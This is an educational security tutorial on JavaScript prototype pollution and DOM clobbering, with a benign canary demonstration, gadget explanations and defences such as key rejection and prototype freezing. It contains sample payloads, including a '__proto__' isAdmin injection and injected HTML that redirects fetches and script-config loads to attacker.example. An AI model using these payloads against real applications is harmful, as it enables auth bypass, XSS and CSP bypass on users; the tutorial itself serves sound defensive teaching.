


# 🧬 Prototype Pollution & DOM Security

> [!warning] Authorized simulation only
> Prototype pollution can escalate to XSS or RCE via gadgets. Prove it with a benign polluted property observed in a controlled context, never a working exploit against real users. Test only in-scope applications you build or are authorized to assess.

## Parent Learning Order
CORS & Clickjacking -> Cross-Site Scripting -> CSRF & SameSite Testing -> Prototype Pollution & DOM Security

## Poisoning the Blueprint Every Object Shares

> *You set one property on one object. How many objects changed?*
>
> Hold your answer — the section below is the response.

In JavaScript, almost every object inherits from a shared blueprint: `Object.prototype`. Properties on that blueprint are visible to *every* object in the program. **Prototype pollution** is a flaw where attacker input can *write* to that shared blueprint — typically via a specially-crafted key like `__proto__` — so a property the attacker sets appears on *all* objects at once. This is uniquely dangerous because it corrupts the application globally: a single polluted property can change how unrelated code behaves, and combined with a "gadget" (code that reads that property), it escalates to XSS or even server-side code execution in Node.js.

The root cause is a **recursive merge or property-set that trusts attacker-controlled keys** — copying user JSON into an object without rejecting `__proto__`, `constructor`, and `prototype` keys.

> [!tip] The analogy, and where it breaks
> Prototype pollution is like editing the *default template* every document in an office inherits from — change one line in the template and every future and existing document silently gains it. The analogy breaks on reach: an office template only affects documents, whereas `Object.prototype` underlies *all program logic*, so a polluted property can alter security checks, rendering, and control flow in code that never touched the attacker's input.

**Prerequisites:** JavaScript objects and prototypes, JSON handling, and XSS (the common escalation).

## The Mechanism: `__proto__` as a Write Target

When code recursively merges attacker-controlled data (a common pattern for config, query params, or JSON bodies), a key named `__proto__` may be interpreted not as a normal property but as a reference to the object's prototype:

```text
attacker sends:  {"__proto__": {"isAdmin": true}}
vulnerable merge writes to:  Object.prototype.isAdmin = true
result:  EVERY object now has .isAdmin === true
```

Now any code that checks `if (user.isAdmin)` — even for a user object that never had that property set — sees `true`, because it inherits it from the polluted prototype. The pollution is invisible in the object's own properties; it lives on the shared prototype.

```bash
# demonstrate the pollution mechanism in Node (or any JS engine)
node -e '
const merge = (t,s) => { for (const k in s) { if (typeof s[k]==="object") { t[k]=t[k]||{}; merge(t[k],s[k]); } else t[k]=s[k]; } return t; };
const user = {};
merge({}, JSON.parse("{\"__proto__\":{\"polluted\":\"CANARY\"}}"));   // attacker input
console.log("a fresh, unrelated object now has:", ({}).polluted);
'
```

```text
a fresh, unrelated object now has: CANARY
```

A brand-new empty object `{}` — never touched by the attacker — now has `.polluted === "CANARY"`, because the merge wrote to `Object.prototype`. That global contamination from one input is the finding.

## From Pollution to Impact: Gadgets

Prototype pollution alone sets a property everywhere; the *impact* comes from a **gadget** — existing code that reads a polluted property in a dangerous way:

- **XSS gadget** — a template engine or DOM sink that reads a config property you polluted, injecting your value as HTML.
- **Auth bypass gadget** — code checking `user.isAdmin` that now sees the polluted `true`.
- **RCE gadget (Node.js)** — a property that flows into `child_process` options, a require path, or template compilation, reaching command execution.

This mirrors the deserialization gadget-chain idea: the attacker supplies data, and the *application's own code* turns it into impact. The pollution is the primitive; the gadget is the escalation.



## Pollution with no gadget is still a finding

- **Pollution without a gadget.** You can pollute the prototype but find no gadget to escalate — still a finding (the pollution primitive), because a future code change or library update can add a gadget. Report the primitive.
- **Invisible in own-properties.** The polluted property does not appear in the object's own keys (`Object.keys()` misses it) — check inherited properties (`obj.polluted`, `in` operator) to detect it.
- **Proving with a working exploit.** A benign polluted property (a canary) observed on an unrelated object proves the flaw; chaining to a real XSS/RCE is over-proving unless the gadget analysis is the point.
- **Client vs. server.** Client-side pollution escalates to DOM XSS; server-side (Node.js) can reach RCE. Identify where the vulnerable merge runs.
- **Framework nuance.** Modern libraries increasingly reject `__proto__`, so a failed payload may mean a patched library — try `constructor.prototype` and other paths before concluding safe.

**The deliberate break:** pollution with no demonstrated impact reads as not a finding — a property was changed and nothing happened, so there is nothing to report.

The vulnerability is the **write to the shared prototype**, and it is complete at that point. The gadget that converts it into impact lives elsewhere — in application code or in a dependency — and may not exist today and may arrive with the next `npm update`. Reporting only where a gadget was found describes the current dependency tree rather than the defect, and understates something durable as something conditional.

**How you'd spot it:** prove the write on its own terms: set a property through `__proto__` and observe it appearing on an unrelated, freshly created object. That demonstration is the finding, whole, and it does not depend on finding impact. Hunt gadgets afterwards as a separate exercise, and state plainly that a gadget-free result is a statement about this dependency set on this date rather than about the application.

## DOM Clobbering: overwriting JavaScript with HTML

Prototype pollution writes to `Object.prototype` by exploiting a merge
operation. **DOM clobbering** achieves a conceptually similar goal — corrupting
a JavaScript variable the application relies on — but uses a completely different
mechanism: it **uses HTML elements to shadow global JavaScript variables** via
the browser's legacy DOM API.

The browser exposes named elements as properties on the `window` object and on
`document`. An element with `id="foo"` becomes `window.foo`; a `<form
name="bar">` becomes `document.bar`. JavaScript code that reads `window.config`
or `document.baseURL` without first checking whether those properties are already
set by a DOM element can be clobbered by an attacker who injects HTML into the
page — even when a Content Security Policy (CSP) blocks all script execution.

### The clobbering mechanism

```html
<!-- attacker-injected HTML (no <script> required) -->
<a id="config" href="https://attacker.example/">clobbered</a>

<!-- application code that runs after the injection -->
<script>
  // developer assumed window.config would be undefined or a JS object
  // but the anchor element shadowed it
  let endpoint = window.config || '/api/default';
  fetch(endpoint);   // fetches attacker.example instead
</script>
```

The `<a>` element with `id="config"` sets `window.config` to the DOM element
itself. When the application code reads `window.config || '/api/default'`, the
DOM element is truthy, so `endpoint` is set to the element — which, when
coerced to a string (by `fetch`), yields its `href` attribute. The attacker
controls the `href`, and the request goes to their server.



### Named form elements as a two-level clobber

A single `id` attribute sets a property on `window`. A `<form>` with a `name`
attribute and an `<input>` inside it with a `name` attribute creates a two-level
clobber: `document.formName.inputName`:

```html
<form id="config" name="config">
  <input id="apiKey" name="apiKey" value="clobbered-key">
</form>
```

```javascript
// code reading a config object property:
const key = window.config.apiKey;
// receives the input element, not a string
// .toString() or string coercion → "[object HTMLInputElement]"
// but .value → "clobbered-key" if the code accesses .value
```

Two-level clobbering reaches nested property reads — the same paths that
prototype pollution uses to bypass object property checks.

### The CSP bypass dimension

The most important context for DOM clobbering is **CSP bypass**. A strict CSP
that blocks `'unsafe-inline'` scripts, `eval`, and external script sources
still allows HTML injection (if sanitization is absent or incomplete). An
attacker who can inject HTML but not execute scripts can use clobbering to
corrupt variables that a *subsequent same-origin script* reads — turning HTML
injection into code-path control without ever executing a `<script>` tag of
their own.

```html
<!-- CSP: "script-src 'self'" — no inline scripts, no eval -->
<!-- Attacker's injected HTML: -->
<a id="CURRENT_USER_CONFIG" href="//attacker.example/config.js"></a>

<!-- Legitimate same-origin script that runs later: -->
<script src="/app.js">
// app.js: loads config from window.CURRENT_USER_CONFIG if set
if (window.CURRENT_USER_CONFIG) {
    loadConfig(window.CURRENT_USER_CONFIG.href);
    // loads from attacker.example/config.js
}
</script>
```

The script is legitimate and same-origin; the CSP allows it. The clobbering
turns HTML injection into a configurable code-fetch that bypasses the script
restriction.

### Prototype pollution and DOM clobbering: shared root

Both techniques share the same abstract shape: **corrupt a variable or property
that application code reads as trusted**, so the application executes the
attacker's value as a code path, a URL, or a security decision. Prototype
pollution does this through the shared prototype; DOM clobbering does it through
the browser's DOM-to-window binding. The gadget concept applies equally: the
attacker provides the corrupt value, and the *application's own code* turns it
into impact.

The shared defense is also identical: **never read a global variable or object
property that could be influenced by untrusted HTML without explicit validation**.
Check that `window.config` is the type your code expects (`typeof window.config
=== 'object' && !(window.config instanceof Element)`) rather than assuming
absence-or-JS-object. And sanitize HTML on the way in — a sanitizer that strips
`id` attributes (or uses an allowlist) prevents element-to-global binding before
it happens.

## Security Implications — Detection & Defense

- **Reject dangerous keys** (`__proto__`, `constructor`, `prototype`) when merging or setting properties from untrusted input — the direct fix. Use `Object.create(null)` for maps (no prototype to pollute), or a `Map` instead of a plain object.
- **Freeze the prototype** (`Object.freeze(Object.prototype)`) as defense-in-depth so it cannot be written even if a merge is flawed.
- **Use safe merge libraries** and keep dependencies updated — many prototype-pollution CVEs are in popular utility libraries (lodash, jQuery historically), so the flaw often arrives via a dependency.
- **Schema-validate untrusted JSON** so unexpected keys like `__proto__` are rejected before any merge.
- **Detection** is hard because the payload is valid JSON; look for `__proto__`/`constructor` keys in inputs and the downstream *effects* (unexpected global property behavior). The durable defense is prevention at the merge boundary.

## Summary

You should now be able to:

- Explain why writing to `Object.prototype` affects every object, and why a `__proto__` key in untrusted JSON is dangerous.
- Demonstrate prototype pollution with a benign canary and escalate it via an existing gadget (auth bypass), and detect pollution via inherited (not own) properties.
- Explain how gadgets turn the pollution primitive into XSS/RCE, why the pollution is invisible in own-properties, and why key rejection, `Object.create(null)`, and prototype freezing are the layered fixes.
- Explain DOM clobbering — how HTML elements with `id`/`name` attributes shadow `window` and `document` properties — and why it is a CSP bypass vector even when `<script>` injection is blocked; describe the shared root with prototype pollution and the `instanceof Element` type-guard fix.

---
> 🔼 Up: [[Client-Side Web Security]]
